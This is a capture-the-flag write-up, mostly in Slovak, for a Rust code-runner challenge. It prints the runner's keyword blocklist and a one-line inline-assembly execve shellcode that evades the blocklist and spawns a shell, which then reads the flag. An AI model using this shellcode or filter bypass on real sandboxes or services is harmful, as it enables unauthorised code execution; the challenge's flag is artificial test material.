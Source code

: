 # Zadanie

EN: I made a Rust code interpreter where you can run your rust code. I made it very safe so you don’t hack me.

SK: Spravil som nástroj na spúšťanie Rust kódu. Je velmi bezpečný, nech ma nehackuješ.

`exp.cybergame.sk:7010`

**Súbory:**

- main.py

## Riešenie

Máme takýto skript

```python
import subprocess

HEADER = """
#![no_std]
#![no_main]
use core::panic::PanicInfo;
#[panic_handler]
fn panic(_info: &PanicInfo) -> ! {
    loop {}
}
#[unsafe(no_mangle)]
pub extern "C" fn _start() -> () {
"""

FOOTER = """
}
"""

def checker(code):
    if code.count("!") > 1:
        return 0
    if "libc" in code:
        return 0
    if "std" in code:
        return 0
    if "flag" in code:
        return 0
    if "syscall" in code:
        return 0
    if "include" in code:
        return 0
    return 1

code = input("Give me code> ")
if not checker(code):
    print("Go away you hacker")
    exit()
with open("./src/main.rs", "w") as f:
    f.write(HEADER)           
    f.write(code)
    f.write(FOOTER)           

print("Building - this may take a while...",end="")
out = subprocess.run(
    ["cargo", "build", "--target", "x86_64-unknown-none"],
    capture_output=True,
    text=True  
)
if out.returncode:
    print("failed - exit")
    exit()
print("done")
print("Running...")
subprocess.run(["cargo", "run", "--target", "x86_64-unknown-none"])

```

ktorý na serveri vytvorí rust kód a s pevne definovaným začiatkom a koncom, kde telo viem definovať sám s určitými obmedzeniami a tento kód sa na serveri zbuidlí a spustí. Názov vlajky neviem, ideálne si vložiť telo, ktoré mi spawne shell, ale nesmiem použiť zakázané výrazy, ale môžem použiť assembly asm!, i keď výkričník len raz, ale bohato stačí

```rust
unsafe {
	core::arch::asm!("
		xor rdi, rdi
		push rdi
		mov rbx, 0x68732f2f6e69622f
		push rbx
		mov rdi, rsp
		xor rsi, rsi
		xor rdx, rdx
		mov rax, 59
		.byte 0x0f, 0x05
		", options(noreturn));
}
```

Upraviť do jedného riadku a zadať do konzoly.

```shell
nc exp.cybergame.sk 7010
Give me code> unsafe{core::arch::asm!("\nxor rdi, rdi\npush rdi\nmov rbx, 0x68732f2f6e69622f\npush rbx\nmov rdi, rsp\nxor rsi, rsi\nxor rdx, rdx\nmov rax, 59\n.byte 0x0f, 0x05\n", options(noreturn));}
Building - this may take a while...done
Running...
ls
Cargo.lock
Cargo.toml
flag.txt
main.py
src
target
cat flag.txt
SK-CERT{v3ry_600d_p3rf0rm4nc3}
```



## Vlajka

```
SK-CERT{v3ry_600d_p3rf0rm4nc3}
```
